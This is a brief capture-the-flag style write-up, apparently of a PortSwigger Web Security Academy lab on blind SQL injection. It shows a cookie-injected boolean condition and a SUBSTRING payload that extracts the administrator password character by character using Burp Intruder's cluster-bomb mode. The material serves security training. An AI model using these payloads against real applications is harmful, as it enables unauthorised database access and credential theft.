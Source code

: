 # Lab: Blind SQL injection with conditional responses
## Description

Found the vulnerable parameter (cookie):
```yaml
GET /filter?category=Gifts HTTP/1.1
Host: acb91f911f1d6796c00cabd3008500f4.web-security-academy.net
Cookie: TrackingId=Je6yQ3NDTba76pcl'+and+'1'%3d'1; session=jRz4gvrpjV1bd9iHTTsDKTgFKF03ibZM
```

Used intruder to identify the first character in the password:
`'+AND+SUBSTRING((SELECT+Password+FROM+users+WHERE+username+%3d+'administrator'),1,1)+%3d+'d`

But, I didn't want to shift the character position manually using the default Intruder attack method `Simple`. Instead, I switched attacking mode to `cluster bomb`. Defined two entry points:
1) A running number from 1-20
2) A simple list of characters a-Z0-9

Once all the options were enumerated, I filtered the results by "Welcome" and sorted the results by the `Payload 1` column (the substring position) which resulted in this:

![Cluster Bomb](09-cluster-bomb.png "Cluster Bomb")

## Solution

See description.